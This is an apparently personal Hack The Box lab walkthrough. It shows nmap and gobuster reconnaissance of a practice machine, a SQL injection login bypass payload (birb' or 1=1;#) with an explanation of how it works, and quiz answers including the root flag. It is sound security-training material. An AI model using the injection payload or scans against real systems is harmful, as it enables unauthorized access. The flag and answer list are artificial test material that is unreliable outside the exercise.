 ## Walkthrough

- nmap scans

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 19:49 IST
Nmap scan report for 10.129.56.206
Host is up (0.57s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.56.206 -sC -sV -p80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 20:00 IST
Nmap scan report for 10.129.56.206
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.62 seconds
```

- did a dirbust to find directories on the http server
- found nothing useful lol

```
┌─[birb@coffee]─[~]
└──╼ $gobuster dir --url 10.129.56.206 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.56.206
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/03/16 20:03:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.56.206/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.56.206/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.56.206/images/]
/index.php            (Status: 200) [Size: 4896]                                  
/js                   (Status: 301) [Size: 311] [--> http://10.129.56.206/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/vendor               (Status: 301) [Size: 315] [--> http://10.129.56.206/vendor/]   
===============================================================
2023/03/16 20:06:31 Finished
===============================================================
```

- opened `http://10.129.56.206` in browser

![](https://github.com/nyxtales0x0/htb/blob/master/boxes/starting-point/tier-1/images/Pasted%20image%2020230316231358.png?raw=true)

- tried sql injection to bypass login

> username : birb' or 1=1;#
> password : coffee
>
> behind the scenes because of the `'` the string ended there and the `or 1=1` part got executed. when combined together it would return true even if the user `birb` is not present. the `#` at the end comments out rest of the sql statement checks on the server side thus making the password check useless.

- got the flag

![](https://github.com/nyxtales0x0/htb/blob/master/boxes/starting-point/tier-1/images/Pasted%20image%2020230316231208.png?raw=true)

## Tasks

**What does the acronym SQL stand for?**

=>  Structured Query Language 

**What is one of the most common type of SQL vulnerabilities?**

=> SQL injection

**What does PII stand for?**

=> Personally Identifiable Information

**What is the 2021 OWASP Top 10 classification for this vulnerability?**

=> A03:2021-Injection

**What does Nmap report as the service and version that are running on port 80 of the target?**

=> Apache httpd 2.4.38 ((Debian))

**What is the standard port used for the HTTPS protocol?**

=> 443

**What is a folder called in web-application terminology?**

=> directory

**What is the HTTP response code is given for 'Not Found' errors?**

=> 404

**Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?**

=> dir

**What single character can be used to comment out the rest of a line in MySQL?**

=> #

**If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?**

=> Congratulations

**Submit root flag**

=> e3d0796d002a446c0e622226f42e9672